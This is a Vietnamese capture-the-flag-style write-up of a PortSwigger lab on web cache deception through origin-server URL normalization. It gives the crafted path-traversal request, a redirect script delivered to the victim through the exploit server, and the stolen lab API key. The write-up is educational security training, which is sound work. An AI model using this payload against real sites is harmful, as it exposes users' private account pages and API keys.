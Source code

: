 # Write-up: Exploiting origin server normalization for web cache deception

### Tổng quan
Khai thác lỗ hổng web cache deception do cơ chế chuẩn hóa (normalization) của origin server, sử dụng path traversal (`../`) và tham số `?` để lừa hệ thống cache lưu trữ trang `/my-account` của tài khoản carlos dưới dạng file tĩnh, lấy API key của `carlos` và submit key để hoàn thành lab.

### Mục tiêu 
- Khai thác web cache deception thông qua path traversal và tham số `?` để lấy API key của tài khoản `carlos` và submit key để hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser
- Exploit Server (PortSwigger)

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập tài khoản `wiener`:`peter`, quan sát yêu cầu:
    `GET /my-account HTTP/2`
    - Thử path traversal trong Burp Repeater:
        `GET /my-account../profile.cs`
        - **Phản hồi**: `404 Not Found`, cho thấy `/my-account../profile.cs` không hợp lệ:
            ![not](./images/1_not-found.png)

- Dò ký tự đặc biệt bằng Burp Intruder:
    `GET /my-account§../§profile.cs HTTP/2`
    - **Kết quả**: Ký tự `?` được server chấp nhận nhưng không có header X-Cache: `miss` hoặc `hit`:
        ![delimiter](./images/2_delimiter.png)

- Quan sát cache với file tĩnh:
    `GET /resources/js/tracking.js`
    - **Phản hồi**: `X-Cache: miss`, gợi ý hệ thống cache hoạt động với file tĩnh
        ![resource](./images/3_resources-miss.png)

- Thử cache với path traversal:
    `GET /resources/..%2fmy-account?profile.cs`
    - Lần 1: **Phản hồi**: `X-Cache: miss`, nội dung chưa được cache.
        ![miss](./images/4_miss.png)
    - Lần 2: **Phản hồi**: `X-Cache: hit`, xác nhận hệ thống cache lưu trữ nội dung /my-account dưới dạng file tĩnh:
        ![hit](./images/5_hit.png)

    - **Quan sát**: Path traversal (`../`) và tham số `?profile.cs` khiến server chuẩn hóa URL thành `/my-account`, nhưng cache lưu trữ như file tĩnh, gợi ý khả năng web cache deception.

2. **Khai thác (Exploitation)**
- Sử dụng Exploit Server để lừa nạn nhân (carlos) truy cập URL:
    ```Java
    <script>document.location="https://lab-id.web-security-academy.net/resources/..%2fmy-account?12345.css"</script>
    ```
    - Lưu payload vào body của Exploit Server và gửi tới nạn nhân qua chức năng "Deliver exploit to victim":
        ![body](./images/6_body.png)

- Kiểm tra cache để lấy nội dung trang `/my-account` của carlos:
    `GET /resources/..%2fmy-account?12345.css`
    - `Phản hồi`: X-Cache: hit, trả về trang `/my-account` của carlos, chứa API key `5rIy46kpP63WgwCLsqZtlVhs5AEEIQeo`:
        ![api](./images/7_api.png)

- Submit API key `5rIy46kpP63WgwCLsqZtlVhs5AEEIQeo` qua chức năng submit của lab :
    ![solved](./images/8_solved.png)

- **Giải thích**: Lỗ hổng web cache deception xảy ra do origin server chuẩn hóa `/resources/..%2fmy-account?12345.css` thành `/my-account`, nhưng hệ thống cache lưu trữ URL dưới dạng file tĩnh, cho phép truy xuất API key của carlos mà không cần xác thực.

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng web cache deception bằng path traversal (../) và tham số ? để lừa hệ thống cache lưu trữ trang nhạy cảm.
- Nhận thức tầm quan trọng của việc kiểm tra cơ chế chuẩn hóa URL và cấu hình cache an toàn để ngăn chặn web cache deception.

### Tài liệu tham khảo
- PortSwigger: Web Cache Deception

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác web cache deception thông qua cơ chế chuẩn hóa của origin server, lấy API key của người dùng, và hiểu cách bảo vệ hệ thống cache khỏi các cuộc tấn công tương tự. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*